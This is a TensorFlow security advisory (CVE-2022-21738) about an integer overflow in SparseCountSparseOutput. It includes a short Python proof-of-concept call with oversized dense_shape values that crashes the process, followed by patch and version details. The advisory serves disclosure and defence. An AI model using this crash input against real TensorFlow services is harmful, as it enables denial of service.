 ## TFSA-2022-019: Integer overflow leading to crash in `SparseCountSparseOutput`

### CVE Number
CVE-2022-21738

### Impact
The [implementation of `SparseCountSparseOutput`](https://github.com/tensorflow/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/count_ops.cc#L168-L273) can be made to crash a TensorFlow process by an integer overflow whose result is then used in a memory allocation:

```python
import tensorflow as tf
import numpy as np

tf.raw_ops.SparseCountSparseOutput(
  indices=[[1,1]],
  values=[2],
  dense_shape=[2 ** 31, 2 ** 32],
  weights=[1],
  binary_output=True,
  minlength=-1,
  maxlength=-1,
  name=None)
```

### Patches
We have patched the issue in GitHub commit [6f4d3e8139ec724dbbcb40505891c81dd1052c4a](https://github.com/tensorflow/tensorflow/commit/6f4d3e8139ec724dbbcb40505891c81dd1052c4a).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Faysal Hossain Shezan from University of Virginia.

